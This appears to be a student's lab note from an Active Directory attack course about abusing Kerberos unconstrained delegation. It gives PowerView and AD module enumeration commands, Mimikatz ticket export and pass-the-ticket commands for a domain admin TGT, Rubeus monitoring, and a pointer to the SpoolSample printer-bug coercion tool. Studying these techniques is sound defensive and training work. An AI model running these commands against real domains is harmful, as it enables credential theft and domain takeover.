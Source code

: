 ![[Pasted image 20241129214134.png]]

- When set for a particular service account, unconstrained delegation allows delegation to any service to any resource on the domain as a user.
- When unconstrained delegation is enabled, the DC places user’s TGT inside TGS (Step 4 in the previous diagram).
- When presented to the server with unconstrained delegation, the TGT is extracted from TGS and stored in LSASS.

This way the server can reuse the user’s TGT to access any other resource as the user

This could be used to escalate privileges in case we can compromise the computer with unconstrained delegation and a Domain Admin connects to that machine.

Discover domain computers which have unconstrained delegation enabled using PowerView:

~~~
Get-DomainComputer -UnConstrained
~~~

Using ActiveDirectory module:

~~~
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
~~~
Compromise the server(s) where Unconstrained delegation is enabled.

- We must trick or wait for a domain admin to connect a service on appsrv.

Now, if the command is run again:

~~~
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
~~~

The DA token could be reused:

~~~
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
~~~

#### Printer Bug

- How do we trick a high privilege user to connect to a machine with Unconstrained Delegation? The Printer Bug!
- A feature of MS-RPRN which allows any domain user (Authenticated User) can force any machine (**running the Spooler service**) to connect to second a machine of the domain user’s choice.
- We can force the dcorp-dc to connect to dcorp-appsrv by abusing the Printer bug.


We can capture the TGT of dcorp-dc$ by using Rubeus on dcorp-appsrv:

~~~
Rubeus.exe monitor /interval:5 /nowrap
~~~

And after that run MS-RPRN.exe:

`https://github.com/leechristensen/SpoolSample`
